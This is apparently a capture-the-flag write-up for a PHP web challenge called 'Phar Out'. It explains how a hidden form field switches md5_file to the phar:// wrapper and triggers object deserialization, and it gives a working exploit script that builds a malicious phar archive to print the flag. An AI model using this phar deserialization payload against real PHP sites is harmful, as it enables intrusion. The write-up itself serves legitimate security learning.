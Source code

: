 # Phar Out
**Category: Web**

![site](images/site.png)

Pretty simple. We can upload a file, and the site will show the corresponding MD5 hash.

The challenge provided the server source. Let's look at `index.php` first:

## index.php

It starts with:
```html
<?php

include("wrapper.php");

?>

<html>
<head>
	<title>Phar Out!</title>
</head>

<body>

<p>
Upload a file, and I'll hash it with MD5 :-)
</p>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
<input type="file" name="the_file" />
<input type="hidden" name="s" value="f" />
<input type="submit" name="submit" value="Upload File" />
</form>
```

We'll have to loop back for a closer look at that imported file at the top. The form has an interesting hidden input field, "`s`", which might come in handy later.

Continuing the file:

```php
<?php

if (isset($_POST['submit']) && $_FILES['the_file']['size'] > 0)
{
	$dest_dir = getcwd() . "/uploads/";

	echo "<br />Submitted<br />";
	$target_file = $dest_dir . basename($_FILES["the_file"]["name"]);
	
	//print_r($_FILES);
	move_uploaded_file($_FILES["the_file"]["tmp_name"], $target_file);

	if ($_POST['s'] === 'p')
		$s = 'phar://';
	else
		$s = 'file://';
	echo md5_file("$s$target_file");
	unlink($target_file);
}

?>
```

First, the uploaded file gets put into the `uploads` directory. Then the value of `md5_file` of our file gets printed. Note that depending on the value of the hidden input field, our file is handled with either the `file://` or `phar://` protocol. According to the PHP documentation:
> What is phar? Phar archives are best characterized as a convenient way to group several files into a single file. As such, a phar archive provides a way to distribute a complete PHP application in a single file and run it from that file without the need to extract it to disk.

Finally, the file gets deleted.

Let's take a look at that imported file:

## wrapper.php
```php
<?php

include("doit.php");

class Wrapper
{
	private $doit;
	public function __wakeup()
	{
		if (isset($this->doit))
		{
			$this->doit = new Doit();
		}
		else
		{
			echo "Hello from Wrapper!";
		}
	}
}

?>
```

There's another import here that we will need to loop back to. `wrapper.php` defines the `Wrapper` class with the magic `__wakeup()` function. (When a class gets unserialized in PHP, the `__wakeup()` function is automatically called.) In our example, that function will instantiate the `Doit` class if the `$doit` property is set.

## doit.php
```php
<?php

class Doit {
        public function __construct()
        {
                $flag = getenv("FLAG");
                echo "flag{{$flag}}\n";
        }
}

?>
```

Immediately upon being constructed, this class will print the flag.

If we pass in a serialized phar object that instantiates the Wrapper with the `$doit` property set, we should be able to print the flag.

## Building a phar
I found [this](https://bananamafia.dev/post/php-deserialize-cccamp19/) blog post which explained how to make a phar. I modified his payload to create this:

### exploit.php
```php
<?php
class Wrapper { private $doit = "yes"; }

$phar = new \Phar("exploit.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();");

# Setting the metadata serializes the payload object
$payload = new Wrapper();
# Here's where the object is serialized and added to the Phar
$phar->setMetadata($payload);

# Add a dummy file to respect the Phar specifications
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
Notice how our phar will construct the `Wrapper` class with the `$doit` property set.

Packaging it up with `php -c source/php.ini exploit.php` we get our phar, `exploit.phar`.

Uploading this to the challenge server with the hidden input field set to phar mode prints the flag to the page:

```
flag{scooby}
```

🎷
